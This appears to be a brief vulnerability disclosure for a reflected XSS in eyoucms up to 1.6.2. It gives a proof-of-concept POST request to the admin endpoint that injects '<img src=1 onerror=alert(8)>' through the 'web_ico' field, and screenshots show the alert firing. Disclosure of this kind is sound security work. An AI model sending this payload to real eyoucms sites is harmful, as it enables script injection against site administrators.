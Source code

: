 eyoucms up to 1.6.2  reflected xss vulnerability POC: 

```
POST /eyoucms/login.php?m=admin&c=System&a=web&lang=cn HTTP/1.1
*****************************************************

------WebKitFormBoundaryq3khRwDr0dBifJAy
********************************************

------WebKitFormBoundaryq3khRwDr0dBifJAy
Content-Disposition: form-data; name="web_ico"

<img src=1 onerror=alert(8)>
------WebKitFormBoundaryq3khRwDr0dBifJAy
**********************************************

------WebKitFormBoundaryq3khRwDr0dBifJAy--

```

![image](https://user-images.githubusercontent.com/55875284/230613377-31d58542-9d0f-466c-8a32-5e09e7b7a6ee.png)

Then when click the icon again, a XSS will be triggered

![image](https://user-images.githubusercontent.com/55875284/230613905-562f9d39-0078-4b1a-898c-2a43f3909ef7.png)
